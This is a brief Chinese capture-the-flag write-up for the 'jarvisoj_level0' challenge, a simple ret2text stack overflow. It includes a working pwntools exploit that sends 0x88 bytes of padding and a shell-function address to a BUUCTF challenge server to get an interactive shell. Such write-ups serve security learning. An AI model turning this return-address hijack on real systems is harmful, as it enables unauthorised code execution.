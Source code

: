 ```yaml
---
title: "jarvisoj_levelo"
description: ""
date: 2023-04-06T19:14:38+08:00
lastmod: 2023-04-06T19:14:38+08:00
draft: yes
images: []
type: docs
weight: 998
toc: true
---
```


## 0x01 分析

![fed3eaa144287a208a711c47c17d2456](images/fed3eaa144287a208a711c47c17d2456.png)  

并且程序存在直接getshell的函数

![012323d7e8428904411f61afc9f05c2c](images/012323d7e8428904411f61afc9f05c2c.png)  

简单的ret2text类型

## 0x02 Exploit

```python
from pwn import*
o = remote('node4.buuoj.cn', 27978)
payload = b'a'*0x88 + p64(0x400596)
o.sendline(payload)
o.interactive() 
```

![dedff31f40f92a167436355d83188f17](images/dedff31f40f92a167436355d83188f17.png)  

自行调试分析
